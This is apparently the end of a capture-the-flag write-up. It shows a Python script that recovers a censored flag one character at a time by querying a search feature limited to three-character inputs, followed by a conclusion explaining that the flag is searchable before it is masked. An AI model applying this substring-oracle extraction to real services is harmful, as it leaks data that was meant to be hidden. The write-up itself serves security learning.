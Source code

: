 ```py
            found_next_char = True
            break
    if not found_next_char:
        print("\n[->] Could not find the next character. Stopping right-side search.")
        break

# --- Part 2: Extend to the left (discovering the start of the flag) ---
# This piece will hold the part of the flag before your discovery
# e.g., L3AK{s1de_channe
left_side = known_part
while not left_side.startswith('L3AK{'):
    found_prev_char = False
    # Take the first 2 characters of our known string
    suffix = left_side[:2]
    for char in CHARSET:
        query = char + suffix
        # Print progress to show it's working
        sys.stdout.write(f"\rTesting (left):  {query} ")
        sys.stdout.flush()
        if check_substring(query):
            left_side = char + left_side
            print(f"\rFound part: {left_side}   ")
            found_prev_char = True
            break
    if not found_prev_char:
        print("\n[<-] Could not find the previous character. Stopping left-side search.")
        break
        
# --- Part 3: Combine the results ---
# The left_side search discovers the beginning of the flag up to your known part.
# The right_side search discovers the end of the flag starting from your known part.
# We just need to combine them, removing the duplicated "K{L".
final_flag = left_side + right_side[len(known_part):]

print("\n" + "="*30)
print(f"Brute-force complete.")
print(f"Final Flag: {final_flag}")
print("="*30)
```
Annddd.... i found the flag 🚩
## ✅ Conclusion
In this exploit, we are asked to search for flags placed on data posts. 
Where there are challenges given is

- We can only use 3 char as a query for search
- The flags that we must find are censored using asterisks.

However, there is a loophole that we can get,
which is before the flag is censored, there is no filter or hashing process on the flag,
so we can utilize this loophole to search character by character. By focusing the search only on posts with id: 3.
